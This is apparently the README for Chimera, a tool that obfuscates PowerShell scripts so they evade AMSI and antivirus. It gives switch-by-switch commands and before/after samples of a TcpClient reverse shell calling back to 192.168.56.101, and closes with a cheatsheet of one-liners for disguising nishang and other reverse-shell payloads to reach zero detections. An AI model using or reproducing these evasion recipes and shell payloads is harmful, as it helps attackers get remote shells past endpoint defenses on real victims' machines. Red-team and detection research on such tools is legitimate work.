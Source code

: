<!-- ![](images/help_menu.png) -->

## Basic Usage

```
./chimera.sh --help
```

Use `-a` to enable all (most) of the switches. Use `--level 1` or `--level 2` to increase the degree of obfuscation, e.g., variable character length. With AMSI, level 1 or 2 is fine. With AV, level 3 or 4 is sometimes required for 0 detections.
```
./chimera.sh -f shells/generic1.ps1 -l 1 -a -o /tmp/chimera.ps1
```

## -v | --variables

Detected variables like `$encoding` and `$writer` are substituted with random strings.
```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -v -o /tmp/chimera.ps1
```

Before
```powershell
$socket = new-object System.Net.Sockets.TcpClient('192.168.56.101', 80);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
        $writer.Flush();
        $read = $null;
```

After
```powershell
$NshdSZejLllNFtYAkqBVNEfvGLOfNQnnpWSLDmrZrbHF = new-object System.Net.Sockets.TcpClient('192.168.56.101', 80);
if($NshdSZejLllNFtYAkqBVNEfvGLOfNQnnpWSLDmrZrbHF -eq $null){exit 1}
$zcucJezOMlDOdsRVAqGzuxFtULFMX = $NshdSZejLllNFtYAkqBVNEfvGLOfNQnnpWSLDmrZrbHF.GetStream();
$kfoGkxTqbGLlNVdGHcgsIIYrlpzmboYINwdBZvLu = new-object System.IO.StreamWriter($zcucJezOMlDOdsRVAqGzuxFtULFMX);
$ALfUtVwVjOipaARrZeHMZnKIzDpwmxwtnmCZtKUSP = new-object System.Byte[] 1024;
$ZheljJvouMZFfnWaBzvBcXQIqiIduRJZLdUuikF = new-object System.Text.AsciiEncoding;
do
{
        $kfoGkxTqbGLlNVdGHcgsIIYrlpzmboYINwdBZvLu.Flush();
        $read = $null;
```

Provide `-v` with a list of words (one word per line) to substitute variables with random selections from the file.
```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -v /usr/share/dict/american-english -o /tmp/chimera.ps1
```

|Default|Custom|
|:-:|:-:|
|![](images/chimera-03-variables.png)|![](images/chimera-03-custom-variables.png)|

## -t | --typedata

Data types like `System.Net.Sockets.TcpClient` often trigger AMSI and AV. Use `-t` to separate the strings into chunks.

```bash
./chimera.sh -f shells/generic1.ps1 -l 2 -t -o /tmp/chimera.ps1
```

![](images/chimera-04-datatypes.png)

## -c | --comments

While it doesn't make a huge difference with detection rates, comments will occasionally trigger AV/VT. By default, Chimera will only replace existing comments found in the source file with gibberish. If no comments exist, use `-i` to insert comments into every line.

```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -i -c -o /tmp/chimera.ps1
```

Provide `-c` with a file (e.g., [the synopsis to Orwell's "1984"](https://www.sparknotes.com/lit/1984/summary/)) and it will insert a sentence into every line.

```bash
./chimera.sh -f shells/generic1.ps1 -l 1 -i -c /tmp/orwell-1984.txt -o /tmp/chimera.ps1
```

```powershell
# Winston Smith is a low-ranking member of the ruling Party in London, in the nation of Oceania.
$socket = new-object System.Net.Sockets.TcpClient('192.168.56.101', 80);
# Everywhere Winston goes, even his own home, the Party watches him through telescreens; everywhere he looks he sees the face of the Party’s seemingly omniscient leader, a figure known only as Big Brother.
if($socket -eq $null){exit 1}
# The Party controls everything in Oceania, even the people’s history and language.
$stream = $socket.GetStream();
# Currently, the Party is forcing the implementation of an invented language called Newspeak, which attempts to prevent political rebellion by eliminating all words related to it.
$writer = new-object System.IO.StreamWriter($stream);
# Even thinking rebellious thoughts is illegal.
$buffer = new-object System.Byte[] 1024;
```

|Default|Custom|
|:-:|:-:|
|![](images/chimera-05-comments.png)|![](images/chimera-05-custom-comments.png)|

## -b | --backticks and -k | --keyword

Inserting backticks into strings is a common obfuscation trick. Couple `-b` with `-t` to further obfuscate the chunks.

The `-k` switch will sometimes report strings like "new-object" and "getstream" that may trigger AV. The `generic2.ps1` provides an example of this. Notice `new-object` and `getstream` are highlighted in red. Use `-b new-object,invoke-expression -s getstream` to backtick and substitute the strings, respectively. Some strings can't be backticked, others can't be substituted (it helps to know a little PowerShell here). Generally, try obfuscating a string with `-s`. If that breaks the script, try `-t` or `-b`. Also, `-k` will only make _recommendations_. The highlighted strings aren't guaranteed to trigger AV. To learn _exactly_ what's triggering AMSI, see [AMSITrigger](https://github.com/RythmStick/AMSITrigger).

|Backticks|Strings Detected|Custom|
|:-:|:-:|:-:|
|![](images/chimera-06-backticks.png)|![](images/chimera-06-keywords.png)|![](images/chimera-06-custom-backticks.png)|

## -d | --decimal and -r | --random

Converting the payload to decimal format usually increased the likeliness of evading AMSI. It simultaneously increased the detection of antivirus scanners. Use `-d` as needed.

The `-r` option will randomize the character punctuations and is automatically applied with `-d`. While character randomization does almost nothing to bypass AMSI, it helps when combined with other switches.

Bug: Randomization occasionally causes scripts to break. It's an anomaly that I haven't tried to resolve as it happens rarely. Always test payloads in a local lab before use, especially with `-r`.

![](images/chimera-07-decimal.png)

## Examples (cheatsheet)

Chimera isn't perfect. It doesn't have obfuscation down to an exact science like some [other noteworthy projects](https://github.com/tokyoneon/Chimera#resources). Sometimes, applying too many switches will break a script (I'm looking at you, `--prepend`).

Below are some usage examples.
```bash
# "cmd.exe" isn't a data type but when wrapped in double-quotes, this works
# https://www.sparknotes.com/lit/harrypotter/section1/
./chimera.sh -f shells/generic1.ps1 -l 2 -o /tmp/chimera.ps1 -v -t cmd.exe -c /tmp/harry_potter.txt -i -h -s getstream -b new-object -j -g -k -r -p

./chimera.sh -f shells/generic2.ps1 -l 1 -o /tmp/chimera.ps1 -v -t -c -i -h -s excePTIon.InneRexcePTIon.message,getstream -b invoke-expression,new-object -j -g -k -r -p

./chimera.sh -f shells/generic3.ps1 -l 1 -o /tmp/chimera.ps1 -v -t -c -i -h -s equals,split,getstream -b new-object -j -g -k -r -p

# short strings like `-s pwd` are prone to breaking scrips
./chimera.sh -f shells/powershell_reverse_shell.ps1 -l 2 -o /tmp/chimera.ps1 -v -t -c -i -h -s getstream,close,pwd,ascii,write -b iex,out-string,new-object -j -g -k -r -p

# nishang scripts
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,invoke-expression,out-string,write-error -j -g -k -r -p
./chimera.sh -f shells/Invoke-PowerShellTcpOneLine.ps1 -l 2 -o /tmp/chimera.ps1 -v -t -c -i -h -s getstream,read -b while,new-object,iex -j -g -k -r -p
```
